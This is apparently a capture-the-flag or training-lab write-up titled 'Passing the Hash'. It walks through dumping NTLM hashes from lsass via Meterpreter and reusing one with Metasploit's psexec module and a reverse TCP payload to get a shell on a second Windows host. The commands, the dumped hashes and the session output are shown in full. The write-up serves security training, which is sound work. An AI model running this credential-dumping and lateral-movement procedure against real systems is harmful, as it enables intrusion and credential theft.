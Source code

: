 # **Challenge 7: Passing the Hash**
!!! note ""
## **Procedure:**

With one Windows machine down and one left to go, we can try a Pass The Hash attack.

- From your established Meterpreter session, perform a hash dump and save the results.
- Exit (or background) your Meterpreter session to get back into the main Metasploit console.
- Using the same exploit and payload modules, set your RHOSTS target to the remaining Windows server IP.
- Test each username and hash combination you found on the first Windows server until you gain a Meterpreter on the final server. 

## **Solution:**

### Runing `hashdump` from the meterpreter shell (Windows VM 172.31.43.103)

- Migrating to lsass.exe (PID:588) to perform the hashdump

```bash linenums="1" hl_lines="1 2 3 48 51-56"
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 272   4     smss.exe              x64   0
 348   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 352   344   csrss.exe             x64   0
 452   444   csrss.exe             x64   1
 472   344   wininit.exe           x64   0
 512   444   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 580   472   services.exe          x64   0
 588   472   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 672   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 728   580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 820   512   LogonUI.exe           x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\LogonUI.exe
 828   512   dwm.exe               x64   1        Window Manager\DWM-1          C:\Windows\System32\dwm.exe
 952   580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 960   580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1008  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1016  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1036  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1164  580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1356  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1656  580   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\svchost.exe
 1768  580   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1836  580   dcvserver.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvserver.exe
 1876  580   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1896  580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1916  580   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 1944  580   MsMpEng.exe           x64   0
 2544  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 2564  1876  ssm-agent-worker.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\ssm-agent-worker.exe
 2784  2564  conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3052  1836  dcvagent.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvagent.exe
 3060  1836  dcvagent.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Program Files\NICE\DCV\Server\bin\dcvagent.exe
 3092  3144  conhost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\conhost.exe
 3144  2488  powershell.exe        x86   0        NT AUTHORITY\SYSTEM           C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
 3324  580   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 3752  580   msdtc.exe             x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\System32\msdtc.exe

meterpreter > migrate 588
[*] Migrating from 3144 to 588...
[*] Migration completed successfully.
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:aa0969ce61a2e254b7fb2a44e1d5ae7a:::
Administrator2:1009:aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
fstack:1008:aad3b435b51404eeaad3b435b51404ee:0cc79cd5401055d4732c9ac4c8e0cfed:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 
```

### Once the first session was send to the background, another meterpreter session will be created targeting the last windows machine (Windows VM 172.31.45.94)

- Setting the options (RHOST, PAYLOAD, SMB)

```bash linenums="1" hl_lines="3 12"
msf6 > search windows/smb/psexec

Matching Modules
================

   #  Name                        Disclosure Date  Rank    Check  Description
   -  ----                        ---------------  ----    -----  -----------
   0  exploit/windows/smb/psexec  1999-01-01       manual  No     Microsoft Windows Authenticated User Code Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/psexec

msf6 > use 0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator2
SMBUser => Administrator2
msf6 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab
SMBPass => aad3b435b51404eeaad3b435b51404ee:e1342bfae5fb061c12a02caf21d3b5ab
msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/psexec) > set RHOST 172.31.39.126
RHOST => 172.31.39.126
msf6 exploit(windows/smb/psexec) > run
```

- Running the `psexec` module


```bash linenums="1" hl_lines="3 12"
[*] Started reverse TCP handler on 172.31.39.126:4444 
[*] 172.31.45.94:445 - Connecting to the server...
[*] 172.31.45.94:445 - Authenticating to 172.31.45.94:445 as user 'Administrator2'...
[*] Sending stage (175686 bytes) to 172.31.45.94
[*] 172.31.45.94:445 - Selecting PowerShell target
[*] 172.31.45.94:445 - Executing the payload...
[+] 172.31.45.94:445 - Service start timed out, OK if running a command or non-service executable...
PG::Coder.new(hash) is deprecated. Please use keyword arguments instead! Called from /usr/share/metasploit-framework/vendor/bundle/ruby/3.1.0/gems/activerecord-7.0.4.3/lib/active_record/connection_adapters/postgresql_adapter.rb:980:in `new'
[*] Sending stage (175686 bytes) to 172.31.45.94
[*] Meterpreter session 2 opened (172.31.39.126:4444 -> 172.31.45.94:50000) at 2024-05-08 04:27:27 +0000

meterpreter > [*] Meterpreter session 3 opened (172.31.39.126:4444 -> 172.31.45.94:50002) at 2024-05-08 04:27:28 +0000
sysinfo
Computer        : EC2AMAZ-L3OOUG8
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > 
```

### The meterpreter shell was deployed successfully in the last windows machine (Windows VM 172.31.45.94)

![alt text](images/Pasted%20image%2020240508002959.png)






!!! note ""

<div class="button-container" markdown="1">
<a href="/Career-Simulation-3/challenge_6/" class="md-button md-button--primary">Previous: Challenge 6</a>
<a href="/Career-Simulation-3/" class="md-button md-button--secondary">Home 🏠</a>
<a href="/Career-Simulation-3/report/" class="md-button md-button--primary">Next: Report</a>
</div>


